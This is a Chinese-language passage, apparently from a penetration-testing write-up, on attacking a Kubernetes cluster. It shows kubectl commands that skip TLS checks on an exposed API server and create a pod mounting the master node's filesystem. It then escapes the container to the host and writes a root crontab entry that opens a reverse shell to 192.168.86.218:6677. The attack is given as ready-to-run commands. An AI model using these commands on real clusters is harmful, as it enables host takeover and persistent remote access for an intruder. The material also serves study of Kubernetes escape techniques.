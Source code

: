 >
> name pod: Docker 名字

<div align=center><img width="600" src="/img/image-20231015165543526.png" div align=center/></div></br>

使用接口下发任务到机器

```shell
./kubectl --server=https://10.96.0.1:443 --insecure-skip-tls-verify=true --username=a --password=a create -f ./x.yaml #执行的命令
```

<div align=center><img width="1000" src="/img/image-20231015165741873.png" div align=center/></div></br>

查看 pod 节点信息

```shell
./kubectl --server=https://10.96.0.1:443 --insecure-skip-tls-verify=true --username=a --password=a get pods -o wide
get pods -o #wide执行的命令
```

并没节点 master 机器

<div align=center><img width="1000" src="/img/image-20231015190736262.png" div align=center/></div></br>

坑点: 我下发了几发现都失败，而且需要挂载到 master 节点机器上面，需要多次创建，而且创建的时候name需要名字不一样

我这里创建了三次，第四次才成功

<div align=center><img width="1000" src="/img/image-20231015190947067.png" div align=center/></div></br>

执行命令

````shell
./kubectl --server=https://10.96.0.1:443 --insecure-skip-tls-verify=true --username=a --password=a exec control-master-x231 -- bash -c "ls /master"
````

> `control-master-x231` 是 master 节点 pod 名字
>
> `-c` 后是所要执行的命令
>
> `/master` 是挂载的路径


这里使用挂载逃逸可以逃逸到真实机器

<div align=center><img width="1000" src="/img/image-20231015191205567.png" div align=center/></div></br>

然后我们直接写入计划任务进行反弹 Shell

```shell
./kubectl --server=https://10.96.0.1:443 --insecure-skip-tls-verify=true --username=a --password=a exec control-master-x231 -- bash -c "echo -e '* * * * * root bash -i >& /dev/tcp/192.168.86.218/6677 0>&1\\n' >> /master/etc/crontab"
```

<div align=center><img width="1000" src="/img/image-20231015191953704.png" div align=center/></div></br>
